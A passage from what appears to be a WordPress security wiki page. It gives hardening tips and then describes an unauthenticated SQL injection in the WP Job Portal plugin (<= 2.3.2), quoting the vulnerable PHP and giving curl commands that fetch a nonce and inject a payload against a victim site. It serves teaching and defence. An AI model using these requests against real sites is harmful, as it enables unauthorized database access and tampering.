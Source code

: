 Also, **only install trustable WordPress plugins and themes**.

### Security Plugins

- [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
- [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
- [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **Other Recommendations**

- Remove default **admin** user
- Use **strong passwords** and **2FA**
- Periodically **review** users **permissions**
- **Limit login attempts** to prevent Brute Force attacks
- Rename **`wp-admin.php`** file and only allow access internally or from certain IP addresses.

### Unauthenticated SQL Injection via insufficient validation (WP Job Portal <= 2.3.2)

The WP Job Portal recruitment plugin exposed a **savecategory** task that ultimately executes the following vulnerable code inside `modules/category/model.php::validateFormData()`:

```php
$category  = WPJOBPORTALrequest::getVar('parentid');
$inquery   = ' ';
if ($category) {
    $inquery .= " WHERE parentid = $category ";   // <-- direct concat ✗
}
$query  = "SELECT max(ordering)+1 AS maxordering FROM "
        . wpjobportal::$_db->prefix . "wj_portal_categories " . $inquery; // executed later
```

Issues introduced by this snippet:

1. **Unsanitised user input** – `parentid` comes straight from the HTTP request.
2. **String concatenation inside the WHERE clause** – no `is_numeric()` / `esc_sql()` / prepared statement.
3. **Unauthenticated reachability** – although the action is executed through `admin-post.php`, the only check in place is a **CSRF nonce** (`wp_verify_nonce()`), which any visitor can retrieve from a public page embedding the shortcode `[wpjobportal_my_resumes]`.

#### Exploitation

1. Grab a fresh nonce:
   ```bash
   curl -s https://victim.com/my-resumes/ | grep -oE 'name="_wpnonce" value="[a-f0-9]+' | cut -d'"' -f4
   ```
2. Inject arbitrary SQL by abusing `parentid`:
   ```bash
   curl -X POST https://victim.com/wp-admin/admin-post.php \
        -d 'task=savecategory' \
        -d '_wpnonce=<nonce>' \
        -d 'parentid=0 OR 1=1-- -' \
        -d 'cat_title=pwn' -d 'id='
   ```
   The response discloses the result of the injected query or alters the database, proving SQLi.
